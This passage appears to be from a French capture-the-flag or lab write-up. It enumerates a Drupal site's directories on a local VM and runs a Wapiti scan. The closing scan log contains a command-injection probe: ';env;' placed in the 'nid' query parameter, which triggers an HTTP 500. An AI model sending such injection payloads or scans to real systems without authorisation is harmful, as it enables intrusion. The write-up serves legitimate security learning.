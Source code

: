 J'ai énuméré les dossiers et fichiers sur le site, mais je n'ai trouvé que des dossiers spécifiques à Drupal :

{% raw %}
```
301        7l       20w      235c http://192.168.56.139/misc
301        7l       20w      237c http://192.168.56.139/themes
200      179l      425w     7972c http://192.168.56.139/0
200      170l      445w        0c http://192.168.56.139/user
301        7l       20w      238c http://192.168.56.139/modules
403      155l      347w     7056c http://192.168.56.139/search
403      158l      353w     7215c http://192.168.56.139/admin
301        7l       20w      238c http://192.168.56.139/scripts
200      156l      357w     7227c http://192.168.56.139/node
301        7l       20w      236c http://192.168.56.139/sites
403      155l      347w     7056c http://192.168.56.139/Search
301        7l       20w      239c http://192.168.56.139/includes
301        7l       20w      239c http://192.168.56.139/profiles
200      170l      445w        0c http://192.168.56.139/User
403      155l      347w     7055c http://192.168.56.139/Admin
403        9l       24w      217c http://192.168.56.139/Template
403      155l      347w     7056c http://192.168.56.139/SEARCH
403      159l      360w     7350c http://192.168.56.139/batch
403        9l       24w      219c http://192.168.56.139/Repository
403        9l       24w      212c http://192.168.56.139/Tag
```
{% endraw %}

Pas de modules Drupal vulnérables... Finalement j'ai lancé un scan Wapiti, car Drupal reste une application web et on n'est pas à l'abri qu'il y ait un module non listé qui soit vulnérable.

Dans mes recherches d'améliorations de Wapiti [j'avais d'ailleurs retrouvé des vulnérabilités dans des modules de différents CMS]({% link _posts/2020-02-03-One-crazy-month-of-web-vulnerability-scanning.md %}).

```bash
wapiti -u http://192.168.56.139/ -v2 --color
```

Le module `exec` remonte un warning. Cette erreur est souvent liée au backend qui interprète le point virgule.

```
[*] Launching module exec
[+] GET http://192.168.56.139/ (0)
[+] GET http://192.168.56.139/?nid=1 (1)
[¨] GET http://192.168.56.139/?nid=%3Benv%3B (1)
---
Received a HTTP 500 error in http://192.168.56.139/
Evil request:
    GET /?nid=%3Benv%3B HTTP/1.1
    host: 192.168.56.139
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    cookie: webform-3[1679520927]=1679520927; webform-3[1679520933]=1679520933; webform-3[1679520939]=1679520939; webform-3[1679520946]=1679520946; webform-3[1679520950]=1679520950
---
```
